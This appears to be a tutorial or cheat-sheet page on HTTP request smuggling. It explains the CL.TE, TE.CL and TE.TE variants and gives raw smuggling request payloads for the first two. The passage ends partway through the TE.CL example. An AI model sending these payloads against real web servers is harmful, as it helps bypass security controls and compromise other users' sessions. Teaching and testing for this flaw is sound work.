 

## HTTP request smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

HTTP request smuggling is an attack based on bad request handling between front and backend. The front end receive the user packet and transfer data or request to the backend. In that way you can chunk your original request and perform a double request in one paquet send. In that way you can bypass some protections.  

Different types of HTTP request smuggling exist, they are :

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

#### Basics

- Basic CL.TE vulnerability

	You have to send a chunk request passing low content length to perform double requests in one, Here is an example:
	
	```header
	POST / HTTP/1.1  
	Host: WEBSITE  
	Connection: keep-alive  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 6  
	Transfer-Encoding: chunked  

	0  

	G
	```
	
	
- Basic TE.CL vulnerability

	Same as previous with a well formed double request, here is an example:
	
	```header
	POST / HTTP/1.1  
	Host: WEBSITE  
	Content-Type: application/x-www-form-urlencoded  
	Content-length: 4  
	Transfer-Encoding: chunked  

	5c  
	GPOST / HTTP/1.1  
	Content-Type: application/x-www-form-urlencoded  
	Content-Length: 15  
